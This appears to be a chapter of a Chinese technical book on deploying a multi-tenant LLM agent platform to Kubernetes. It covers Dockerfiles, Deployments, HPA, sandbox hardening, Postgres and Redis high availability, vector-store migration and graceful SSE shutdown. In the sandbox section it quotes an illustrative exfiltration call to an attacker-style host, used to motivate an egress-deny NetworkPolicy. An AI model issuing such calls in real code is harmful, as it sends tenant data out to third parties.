



## 从单机 Demo 到第一个真实客户

前 11 章把 AgentFlow 的代码骨架搭完了。本地 `docker compose up` 起来，能看到完整的多租户流水线：API 在 3000 端口接 SSE，Worker 进程订阅 BullMQ，沙箱拉起 V8 Isolate 执行 Skill，Postgres 里存着租户和 RLS 策略，Redis 跑限流和 Circuit Breaker，Temporal 在 7233 端口看着所有长任务，Langfuse 收着 trace。运行一切顺利。

然后销售拿下了第一个真实客户：租户 A（电商），承诺给他们 99.9% 的可用性，双十一晚上要扛 50x 峰值。这一刻问题全冒出来了。Demo 跑在一台机器上，机器一挂全挂。Postgres 是单实例，磁盘炸了数据就没了。发新版本要 `pm2 restart`，所有用户的 SSE 流被一刀切断。监控大盘只在自己笔记本上看得见。这些都是单机环境想不到的运维问题，但一上生产就必须立刻解决。

本章把 AgentFlow 部署到一个真实的 Kubernetes 集群，并把生产中绕不开的几件事讲透：怎么把 Node.js 项目打成精简的容器镜像；K8s 上的 Deployment、HPA、Service 该怎么写；Postgres、Redis 的高可用怎么选型；新版本上线怎么不中断正在进行的 SSE 流；pgvector 撑不住时怎么平滑迁移到 Qdrant；最后是钱的问题——一个真实的 LLM 平台，月成本从 $50K 怎么压到 $5K。

配套代码在 `examples/`：Dockerfile、K8s 清单、Helm Chart、迁移脚本。所有 YAML 都能直接 `kubectl apply`，前提是先改掉里面的占位镜像名和 Secret。

## 12.1 容器化：Docker 多阶段构建

部署到 K8s 的第一步是镜像。AgentFlow 是一个 Node.js + TypeScript 的 monorepo，包含 `apps/api`、`apps/worker`、`apps/sandbox` 三个可独立部署的进程。每个进程一个镜像，三个镜像共用同一个 Dockerfile 模板，只是 `CMD` 不同。

### Dockerfile 的设计原则

生产容器镜像有三个硬约束：

第一，镜像要小。不是为了节省存储，是为了**冷启动速度**和**攻击面**。镜像越大，K8s 调度时拉取越慢，HPA 扩容反应越迟；镜像里包的工具越多（编译器、curl、bash），被 RCE 后能做的事就越多。生产镜像应该只有运行所需的产物，没有源码、没有 `node_modules` 的 devDependencies、没有 git 历史。

第二，构建要快、缓存要稳。一次 CI 构建 5 分钟和 30 秒，差别就是开发节奏。多阶段构建配合 `package.json` 优先复制，能让"只改业务代码"的构建命中缓存，30 秒搞定。

第三，运行时身份要正确。**禁止 root 用户运行进程**——这是 K8s `securityContext` 的 baseline 要求，也是被 CVE 突破后逃逸难度的关键。

`examples/Dockerfile` 的写法：

```dockerfile
# Stage 1: build（带全部依赖，编译 TS、编译 native addon）
FROM node:20-bookworm-slim AS builder
WORKDIR /app

# 先复制 manifest 文件，最大化利用 Docker 层缓存
COPY package*.json ./
COPY packages/agent-engine/package.json packages/agent-engine/
COPY packages/llm-gateway/package.json packages/llm-gateway/
COPY packages/skill-system/package.json packages/skill-system/
COPY packages/knowledge-base/package.json packages/knowledge-base/
COPY packages/session/package.json packages/session/
COPY packages/observability/package.json packages/observability/
COPY packages/shared/package.json packages/shared/
COPY apps/api/package.json apps/api/
COPY apps/worker/package.json apps/worker/
COPY apps/sandbox/package.json apps/sandbox/

# native addon 需要 build-essential 和 python（isolated-vm、@temporalio/core-bridge）
RUN apt-get update && \
    apt-get install -y --no-install-recommends \
        build-essential python3 ca-certificates && \
    rm -rf /var/lib/apt/lists/*

# 装全部依赖，包括 devDependencies（TS 编译需要）
RUN npm ci

# 拷源码并编译
COPY . .
RUN npm run build

# 把 devDependencies 剪掉，只保留运行时依赖
RUN npm prune --omit=dev

# Stage 2: runtime（最小镜像，只包含运行产物）
FROM node:20-bookworm-slim AS runtime
WORKDIR /app

# tini 作为 PID 1，负责信号转发和僵尸进程回收
# Node.js 进程直接做 PID 1 会丢 SIGTERM、不回收子进程
RUN apt-get update && \
    apt-get install -y --no-install-recommends ca-certificates tini && \
    rm -rf /var/lib/apt/lists/*

# 创建非 root 用户。uid 1001 与常见 K8s securityContext 对齐
RUN groupadd -g 1001 nodejs && \
    useradd -u 1001 -g nodejs -s /usr/sbin/nologin -M agentflow

# 只复制 build 阶段的产物，不复制源码和测试
COPY --from=builder --chown=agentflow:nodejs /app/node_modules ./node_modules
COPY --from=builder --chown=agentflow:nodejs /app/packages ./packages
COPY --from=builder --chown=agentflow:nodejs /app/apps ./apps
COPY --from=builder --chown=agentflow:nodejs /app/package.json ./

USER agentflow
EXPOSE 3000

# 收到 SIGTERM 时进入优雅关闭流程（应用层监听这个信号）
STOPSIGNAL SIGTERM
ENTRYPOINT ["/usr/bin/tini", "--"]

# 通过 ARG 选择启动哪个 app（api / worker / sandbox 共用此 Dockerfile）
ARG APP=api
ENV APP_PATH=apps/${APP}/dist/index.js
CMD ["sh", "-c", "node $APP_PATH"]
```

> **生产注意：为什么不用 alpine。** 网上很多 Node.js Dockerfile 推荐 `node:20-alpine`，理由是镜像更小（约 50MB 起步）。但 AgentFlow 用了 `isolated-vm` 和 `@temporalio/core-bridge` 两个 native addon，它们都依赖 glibc。alpine 用的是 musl libc，编译时会出诡异链接错误，或者运行时段错误。Debian-slim 镜像稍大（约 80MB 基础），但 native addon 兼容性好，调试成本低很多。50MB 的差距换两小时排查 musl 兼容问题，不值。

实测下来，AgentFlow 的镜像大小：build 阶段 1.2GB（包含编译器、devDependencies），runtime 阶段 350MB（只剩 node_modules 运行时部分和编译产物）。

### `.dockerignore` 不能少

```
node_modules
dist
.git
.env*
*.log
coverage
.vscode
.idea
**/*.test.ts
docker-compose*.yml
```

少了 `.dockerignore`，每次 `docker build` 都会把 `node_modules` 上传到 builder 一遍，慢且把脏东西带进缓存层。

### 多 app 共用 Dockerfile

API、Worker、Sandbox 共用上面这个 Dockerfile，只是 `CMD` 不同。CI 里这样构建：

```bash
docker build -t agentflow/api:v1.0.0 \
  --build-arg APP=api \
  -f examples/Dockerfile .

docker build -t agentflow/worker:v1.0.0 \
  --build-arg APP=worker \
  -f examples/Dockerfile .

docker build -t agentflow/sandbox:v1.0.0 \
  --build-arg APP=sandbox \
  -f examples/Dockerfile .
```

如果不同 app 的 CMD 差别大（比如 worker 要传 task-queue 参数），更干净的做法是每个 app 一个独立 Dockerfile，build 阶段复用同一个 base 镜像。

## 12.2 Kubernetes 部署清单

镜像有了，下一步是把 AgentFlow 跑在 K8s 上。这一节先讲 API 进程（无状态，水平扩展），下一节讲 Worker（无 Service，由队列驱动扩展）。

### 部署拓扑总览

下图（图 12-1，AgentFlow K8s 部署拓扑）是 AgentFlow 生产环境的 Pod 与依赖关系全景图：



几个观察点：API Tier 完全无状态，通过 Service 接入 LB；Worker Tier 没有 Service（队列驱动）；Sandbox 单独成 Tier 是因为 NetworkPolicy 和 securityContext 与其他 Tier 完全不同（12.3 节）；Postgres、Redis、Temporal 都不跑在 K8s 里——托管服务比自建 StatefulSet 稳得多（12.4 节展开）。

### API Deployment 的关键字段

`examples/k8s/api-deployment.yaml`：

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: agentflow-api
  namespace: agentflow
  labels:
    app: agentflow-api
spec:
  replicas: 3
  strategy:
    type: RollingUpdate
    rollingUpdate:
      # 滚动更新时最多临时多出 1 个 Pod（容量短暂上升）
      maxSurge: 1
      # 滚动更新过程中不允许少于期望副本数（保证容量不下降）
      maxUnavailable: 0
  selector:
    matchLabels:
      app: agentflow-api
  template:
    metadata:
      labels:
        app: agentflow-api
      annotations:
        # 让 Prometheus 自动抓取指标
        prometheus.io/scrape: 'true'
        prometheus.io/port: '3000'
        prometheus.io/path: '/metrics'
    spec:
      # 同一 Node 上避免同时跑多个 API Pod，故障域隔离
      affinity:
        podAntiAffinity:
          preferredDuringSchedulingIgnoredDuringExecution:
            - weight: 100
              podAffinityTerm:
                labelSelector:
                  matchLabels:
                    app: agentflow-api
                topologyKey: kubernetes.io/hostname
      containers:
        - name: api
          image: agentflow/api:v1.0.0
          imagePullPolicy: IfNotPresent
          ports:
            - containerPort: 3000
              name: http
          env:
            - name: NODE_ENV
              value: production
            - name: DATABASE_URL
              valueFrom:
                secretKeyRef:
                  name: agentflow-secrets
                  key: database-url
            - name: REDIS_URL
              valueFrom:
                secretKeyRef:
                  name: agentflow-secrets
                  key: redis-url
            - name: ANTHROPIC_API_KEY
              valueFrom:
                secretKeyRef:
                  name: llm-keys
                  key: anthropic
          # 资源限制：requests 是调度依据，limits 是上限
          resources:
            requests:
              cpu: 500m       # 调度器按这个值找节点
              memory: 1Gi
            limits:
              cpu: 2000m      # 突发可用到 2 核
              memory: 4Gi     # 超过 4Gi 会被 OOMKilled
          # readiness：能不能接流量。失败会从 Service Endpoints 摘除
          readinessProbe:
            httpGet:
              path: /health/ready
              port: 3000
            initialDelaySeconds: 10
            periodSeconds: 5
            timeoutSeconds: 2
            failureThreshold: 3
          # liveness：进程活着吗。失败会重启容器
          livenessProbe:
            httpGet:
              path: /health/live
              port: 3000
            initialDelaySeconds: 30
            periodSeconds: 10
            timeoutSeconds: 3
            failureThreshold: 3
          # 优雅关闭：让 LB 先摘除流量，再让进程退出
          lifecycle:
            preStop:
              exec:
                # sleep 15 秒，给 Service Endpoints 同步、LB 摘除时间
                # 期间 Pod 继续服务已有连接
                command: ['sh', '-c', 'sleep 15']
      # 全局优雅关闭超时：必须大于业务最长 SSE 流时长
      # AgentFlow 单次回答最长 2 分钟，180 秒留 60 秒余量
      terminationGracePeriodSeconds: 180
---
apiVersion: v1
kind: Service
metadata:
  name: agentflow-api
  namespace: agentflow
spec:
  selector:
    app: agentflow-api
  ports:
    - name: http
      port: 80
      targetPort: 3000
  type: ClusterIP
```

几个关键决定逐个解释。

**`maxUnavailable: 0` + `maxSurge: 1`**。滚动更新有两种风格：求快或求稳。`maxUnavailable: 1` 允许更新中少一个 Pod，更新最快；`maxUnavailable: 0` 必须先把新 Pod 起好再杀老的，慢一些但容量不会跌。AgentFlow 选后者——LLM 调用本身就慢，容量稍微跌一点 p99 就崩。

**readinessProbe 和 livenessProbe 的差别经常被混用**。readiness 失败的后果是从 Service Endpoints 摘除（不再接新流量），不重启容器；liveness 失败的后果是重启容器。如果一个 endpoint 同时挂在两个 probe 上，下游 Postgres 抖动会被 liveness 误判为进程死亡，把好好的 Pod 重启了。正确做法：

- `/health/live`：只检查进程本身能响应 HTTP，不查数据库、不查 Redis。一定要轻。
- `/health/ready`：检查依赖（数据库、Redis、Temporal）连得通，决定能不能接流量。

**`preStop` + `terminationGracePeriodSeconds`**。K8s 杀 Pod 的顺序是这样的：先标记 Pod 为 Terminating，从 Service Endpoints 移除（这一步是异步的，可能滞后几秒），然后调用 preStop hook，再发 SIGTERM 给容器，最后等到 `terminationGracePeriodSeconds` 后强杀。preStop 里 `sleep 15` 的目的就是等 Endpoints 同步完成、LB 把流量切走，再让应用收到 SIGTERM。少了这个 sleep，新请求会被路由到正在退出的 Pod，用户能感知到几秒钟的 502。

### HPA：CPU + 自定义指标

CPU-based HPA 只能扛住 CPU 是瓶颈的场景。AgentFlow 的瓶颈通常不是 CPU，是**LLM 调用的并发数**——表现为 BullMQ 队列深度。光看 CPU，CPU 还没到 70% 时队列已经堆了 1 万个任务。所以 HPA 要混合 CPU 和队列深度。

`examples/k8s/api-hpa.yaml`：

```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: agentflow-api-hpa
  namespace: agentflow
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: agentflow-api
  minReplicas: 3
  maxReplicas: 20
  metrics:
    # 指标 1：CPU 利用率
    - type: Resource
      resource:
        name: cpu
        target:
          type: Utilization
          averageUtilization: 70
    # 指标 2：BullMQ 队列深度（每个 Pod 平均分摊不超过 100 个）
    # 需要先部署 prometheus-adapter，把 Redis 里的队列长度暴露成 K8s 自定义指标
    - type: External
      external:
        metric:
          name: bullmq_queue_depth
          selector:
            matchLabels:
              queue: agent-tasks
        target:
          type: AverageValue
          averageValue: '100'
  behavior:
    # 扩容快：1 分钟内可以加 4 个 Pod 或翻倍
    scaleUp:
      stabilizationWindowSeconds: 60
      policies:
        - type: Pods
          value: 4
          periodSeconds: 60
        - type: Percent
          value: 100
          periodSeconds: 60
      selectPolicy: Max
    # 缩容慢：5 分钟稳定窗口防止抖动来回重启
    scaleDown:
      stabilizationWindowSeconds: 300
      policies:
        - type: Percent
          value: 50
          periodSeconds: 60
```

> **生产注意：scaleDown 必须有 stabilizationWindow**。LLM 流量经常有秒级抖动，没有稳定窗口 HPA 会几分钟内反复扩缩，每次扩缩都要拉镜像、启动进程、跑 readinessProbe，把集群搞得乱七八糟。300 秒的稳定窗口让"缩容决策"必须在过去 5 分钟都成立才执行，扩容则保持快速反应。

## 12.3 Temporal Worker 部署

Temporal Worker 与 API Pod 形态不同：

- 不接 HTTP 流量，不需要 Service、不需要 readinessProbe
- 由 Temporal Server 主动 push task，不存在"流量被切走"的概念
- 单 Worker 进程内部用 `WorkerOptions.maxConcurrentActivityTaskExecutions` 控制并发
- 副本数由 task queue 的 backlog 长度驱动

`examples/k8s/worker-deployment.yaml` 的关键差异：

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: agentflow-temporal-worker
  namespace: agentflow
spec:
  replicas: 5
  template:
    spec:
      containers:
        - name: worker
          image: agentflow/worker:v1.0.0
          env:
            - name: TEMPORAL_SERVER
              value: 'temporal-frontend.temporal.svc.cluster.local:7233'
            - name: WORKER_CONCURRENCY
              value: '20' # 单进程并发 Activity 数
            - name: WORKER_TASK_QUEUE
              value: 'agentflow-default'
          resources:
            requests:
              cpu: 500m
              memory: 1Gi
            limits:
              cpu: 2000m
              memory: 4Gi
          # liveness 用 Temporal SDK 的 healthcheck 端口
          livenessProbe:
            httpGet:
              path: /health
              port: 9091
            initialDelaySeconds: 30
          # Worker 没有 Service，preStop 留点时间让指标导出器把最后一批数据 flush
          # 退出主流程靠 K8s 在 preStop 结束后发的 SIGTERM 触发
          lifecycle:
            preStop:
              exec:
                command: ['sh', '-c', 'sleep 10']
      # Worker 退出要等正在跑的 Activity 跑完
      # Activity 最长可能 5 分钟（长 LLM 调用），grace period 给 300 秒
      terminationGracePeriodSeconds: 300
```

Sandbox 进程 (`examples/k8s/sandbox-deployment.yaml`) 类似 Worker，但有四处特殊处理：

- **强 securityContext**：容器级加 `readOnlyRootFilesystem: true`、`allowPrivilegeEscalation: false`、`capabilities.drop: ['ALL']`。沙箱镜像里跑的是用户 Skill 代码，必须假定它有恶意。根文件系统只读后给 `/tmp` 挂一个 `emptyDir`（`sizeLimit: 64Mi`）放临时文件。
- **资源限制要严**：memory limit 设到 512Mi 而不是 4Gi，被恶意 Skill 占爆也只影响这一个 Pod。`isolated-vm` 单 Isolate 内存上限再通过环境变量 `ISOLATE_MEMORY_MB=128` 卡死。
- **NetworkPolicy 限制出网**：默认 deny 所有 egress，只放行 DNS（kube-system 53/UDP）和 OTel collector（observability 4318/TCP）。没有这一条，恶意 Skill 可以 `fetch('https://attacker.example.com/exfil')` 把租户数据外发。
- **Service 带 version 标签**：`selector` 写成 `app: agentflow-sandbox + version: v1`。12.6 节的蓝绿发布就是改这一行，让流量秒切到 `version: v2`。

## 12.4 Postgres 生产配置

Postgres 是 AgentFlow 唯一不能丢的数据。会话、工单、知识库、RLS 策略全在这里。Redis 挂了可以重建，Postgres 挂了业务就停了。

### 选型：不要自建

很多创业团队第一反应是用 K8s 跑 Postgres StatefulSet（CloudNativePG、Zalando Operator）。**不推荐**。原因不是技术上不可能，是出问题时责任太重。Postgres 的 PITR（point-in-time recovery）、流复制、failover、主从切换、备份验证，每一项做错都可能丢数据。专职 DBA 团队都未必能搞稳，何况只有几个工程师的团队。

AgentFlow 生产用 AWS RDS for PostgreSQL 16（或 GCP Cloud SQL / 阿里云 RDS）：

- Multi-AZ 主从复制，主挂了自动故障转移
- 自动备份保留 7 天，PITR 精度 5 分钟
- 实例从 `db.r6g.large`（2 vCPU / 16GB）起步
- pgvector 扩展通过 RDS 控制台一键开启（RDS 16+ 支持）

`examples/k8s/postgres-statefulset.yaml` 仅作为本地集群演示用，**不要直接拿到生产**。

### 关键参数调优

RDS 的默认参数对 OLTP 业务调得已经不错，但 pgvector 场景需要几处微调（通过 RDS Parameter Group 设置；下面以 `db.r6g.large` 16GB 内存为例）：

```ini
# 内存分配（按节点内存比例换算成绝对值再填入）
shared_buffers = 4GB             # 约 25% of RAM
effective_cache_size = 12GB      # 约 75% of RAM，告诉 planner OS cache 多大
work_mem = 16MB                  # 每个 sort/hash 节点可用内存
maintenance_work_mem = 256MB     # VACUUM、CREATE INDEX、HNSW 构建用

# SSD 优化
random_page_cost = 1.1           # 默认 4.0 是机械盘假设，SSD 改成 1.1
effective_io_concurrency = 200   # SSD 可并行 IO 数

# pgvector HNSW 索引构建加速
max_parallel_maintenance_workers = 4

# 连接数：PgBouncer 池化后不需要很大
max_connections = 200
```

> **生产注意：work_mem 是按"每个排序/Hash 节点"分配的，不是按连接**。一个复杂查询里有 3 个 sort 节点就用 48MB，乘以 200 个并发连接最坏是 9.6GB。算清楚再调，否则会 OOM。

### 连接池：PgBouncer Transaction 模式

Node.js 应用直接连 Postgres 的坑：每个 Worker 进程开 10 个连接，跑 50 个 Worker 就 500 连接，Postgres 直接 `too many connections`。PgBouncer 站在中间复用连接：

```ini
# pgbouncer.ini 关键配置
pool_mode = transaction          # 事务级复用（与 RLS SET LOCAL 兼容）
max_client_conn = 1000           # 客户端可以建 1000 连接
default_pool_size = 25           # 后端实际只开 25 个到 Postgres
reserve_pool_size = 5            # 紧急情况下额外加 5 个
```

为什么必须用 transaction 模式？因为 AgentFlow 在第 8 章用 `SET LOCAL app.current_tenant_id = '...'` 设置 RLS 变量，这个变量只在当前事务内有效。session 模式（按连接复用）会把变量跨用户泄露。transaction 模式在事务结束时归还连接，变量自然丢失，符合预期。

prepared statement 在 transaction 模式下需要应用层禁用，否则会偶发 `prepared statement does not exist`。Drizzle ORM 默认不用 prepared statement，正好兼容。

### pgvector → Qdrant 迁移路径

第 6 章用 pgvector 实现了 RAG 的向量检索，理由是少一个组件、和业务数据同库可联表。这套方案在 1000 万条向量以下跑得很好，超过这个量级会撞墙：

- 查询 p99 > 100ms 持续 1 周（HNSW 索引扫描慢）
- 向量数据 > 1000 万条
- 向量索引占用 Postgres 内存 > 50%，挤压 OLTP 查询缓存

到这个临界点就要迁移到专门的向量数据库，AgentFlow 选 Qdrant（也可以是 Pinecone、Weaviate、Milvus，选型差不多）。

**双写迁移方案**，不停机分 6 步走（图 12-3，pgvector → Qdrant 双写迁移流程）：



绿色是低风险步骤（不影响线上行为），黄色是灰度阶段（要持续对比指标），红色是高风险步骤（一旦切错难以回退）。任何一步发现指标退步，立刻回退到上一档——双写架构的核心好处就是 Step 4 的灰度回退只需要改一个百分比配置。

`examples/scripts/migrate-to-qdrant.ts` 是步骤 3 的回填脚本骨架。步骤 2 的双写在应用层这样写：

```typescript
// packages/knowledge-base/src/vector-store.ts
export class DualWriteVectorStore implements VectorStore {
  constructor(
    private readonly pg: PgVectorStore,
    private readonly qdrant: QdrantStore,
    private readonly logger: Logger,
  ) {}

  async insert(chunk: KnowledgeChunk): Promise<void> {
    // 主存储：pgvector，必须成功
    await this.pg.insert(chunk);

    // 异步写 Qdrant，失败只记日志不抛错
    // 后台有 reconcile 任务定时扫差异，最终一致
    this.qdrant.insert(chunk).catch((err) => {
      this.logger.error('Qdrant dual-write failed', {
        chunkId: chunk.id,
        error: err.message,
      });
    });
  }

  async search(query: number[], topK: number): Promise<KnowledgeChunk[]> {
    // 读切换由 ConfigService 控制百分比
    const useQdrant = this.shouldUseQdrant();
    return useQdrant
      ? this.qdrant.search(query, topK)
      : this.pg.search(query, topK);
  }
}
```

> **生产注意：双写不等于强一致**。双写期间，pgvector 写成功但 Qdrant 写失败的记录会少一条。reconcile 脚本要定时跑——找出 pgvector 有但 Qdrant 没有的记录，补到 Qdrant。这是最终一致，业务上能接受。

## 12.5 Redis 高可用

Redis 是 AgentFlow 的瑞士军刀：BullMQ 队列、限流计数器、Circuit Breaker 状态、SSE 连接元数据、语义缓存全在 Redis。挂一秒钟，整条流水线立刻报错。

### 别用单节点 Redis

很多团队的 Redis "高可用" 是 Master + Replica，主挂了手动切换。这不是高可用，是减少灾难时间。两种正经方案：

**Redis Sentinel**：3 个 Sentinel 节点监督 1 主 N 从，主挂了 Sentinel 自动选举新主。客户端通过 Sentinel 查询主节点地址。适合"数据量不大、需要 HA"的场景。

**Redis Cluster**：3 主 3 从（或更多），数据按 key 的 hash 分到 16384 个 slot 上。读写按 slot 路由到对应节点。容量随节点数线性扩展。适合"数据量大、需要 HA + 水平扩展"的场景。

AgentFlow 选 Cluster。第 2 章建立单机模拟规则时就强调过：**单机用单节点 Redis，但 key 设计必须按 Cluster 来**。原因就在这里——切到 Cluster 时，业务代码一行不用改。

### Hash tag 路由

Cluster 按 key 的 CRC16 hash 分 slot。如果两个 key 不在同一个 slot，跨 slot 的事务、Lua 脚本、pipeline 全会失败。常见场景：

```typescript
// 错误：两个 key 大概率在不同 slot
const sessionKey = `session:${sessionId}`;
const messagesKey = `messages:${sessionId}`;
await redis
  .multi()
  .hset(sessionKey, ...)
  .lpush(messagesKey, ...)
  .exec();
// → CROSSSLOT Keys in request don't hash to the same slot

// 正确：用 {sessionId} 作为 hash tag，强制两个 key 同 slot
const sessionKey = `session:{${sessionId}}`;
const messagesKey = `messages:{${sessionId}}:list`;
```

第 7 章的会话存储、第 10 章的限流器、第 5 章的 Skill 沙箱状态，所有 key 都已经按 `prefix:{tagId}:suffix` 设计。切到 Cluster 是无缝的。

`examples/k8s/redis-cluster.yaml` 用 Bitnami Redis Cluster Helm Chart 起一个 3 主 3 从的测试集群。生产建议用云厂商的托管 Redis（AWS ElastiCache、阿里云 Tair），运维成本低得多。

## 12.6 零停机发布

发布是部署里最容易翻车的环节。本节解决三个具体问题。

### 滚动更新中的 SSE 流

AgentFlow 的 API 用 SSE 推送 LLM 流式响应。一次回答可能持续 30 秒到 2 分钟。滚动更新时，老 Pod 被 K8s 杀掉，正在传输的 SSE 连接会被掐断，用户看到回答到一半停了。

K8s 终止 Pod 的标准生命周期：

1. Pod 被标记为 Terminating，从 Service Endpoints 摘除（新连接不再路由进来）
2. preStop hook 执行（这里 sleep 15 等 Endpoints 同步）
3. preStop 返回后，SIGTERM 发给容器 PID 1（tini，再转发给 Node 进程）
4. 等到 `terminationGracePeriodSeconds` 超时（这里 180 秒）还没退出，发 SIGKILL

应用层要做的事：收到 SIGTERM 后，**不要立刻退出**。改 `/health/ready` 返回 503（让 K8s 早点摘流量），同时让正在进行的 SSE 流跑完。代码骨架：

```typescript
// apps/api/src/shutdown.ts
let isShuttingDown = false;
const inflightStreams = new Set<AbortController>();

export function registerShutdown(server: FastifyInstance): void {
  process.on('SIGTERM', async () => {
    isShuttingDown = true;

    // 1. 等 30 秒，让 LB 把流量切走，让正在跑的 SSE 流尽量自然结束
    await sleep(30_000);

    // 2. 还在跑的 SSE 流主动中止
    for (const ctrl of inflightStreams) {
      ctrl.abort();
    }

    // 3. 关 Fastify
    await server.close();

    // 4. 关 Redis、Postgres 连接池
    await closePools();

    process.exit(0);
  });
}

// readiness 检查
export function readinessHandler(_req: FastifyRequest, reply: FastifyReply) {
  if (isShuttingDown) {
    return reply.code(503).send({ status: 'shutting_down' });
  }
  return reply.send({ status: 'ok' });
}
```

> **生产注意：terminationGracePeriodSeconds 要大于业务 SSE 的最长持续时间**。AgentFlow 的回答最长 2 分钟，所以 grace period 设到 180 秒。preStop sleep 15 + 应用层 sleep 30 共 45 秒，剩 135 秒给 SSE 跑完。过短，长回答会被掐断；过长，节点缩容慢。

下图（图 12-2，零停机发布时的 SSE 流处理时序）把上面那段抽象的生命周期具体化：



关键是把"应用层主动等待"放在 SIGTERM 之后而不是 preStop 里——preStop 主要服务于"让 LB 摘除流量"，应用层的 sleep 30 服务于"让正在跑的 SSE 自然完成"。两者目的不同，不能合并。

### 数据库 schema 迁移

发布期间数据库的两难：新代码读老 schema 会缺字段，老代码读新 schema 会看到没见过的列。错误做法是停服迁移，正确做法是**两步发布 + 兼容性原则**。

兼容性原则只有一句：**任何一次数据库变更，必须让上一版本的代码也能跑**。

具体到几种常见 schema 变更：

| 变更类型 | 单次发布 | 两步发布 |
|---------|---------|---------|
| 加列（nullable） | 可以 | — |
| 加表 | 可以 | — |
| 删列 | 不行 | 第一步：新代码不再写这一列；第二步：删列 |
| 改列名 | 不行 | 第一步：加新列、同时双写；第二步：迁移历史数据；第三步：删老列 |
| 加非空约束 | 不行 | 第一步：加列允许 null；第二步：回填非 null；第三步：加 NOT NULL |

`agentflow/packages/shared/migrations/` 下每个文件按这个原则写。Drizzle 的迁移工具能生成 SQL，但语义上的兼容性必须人工把关。

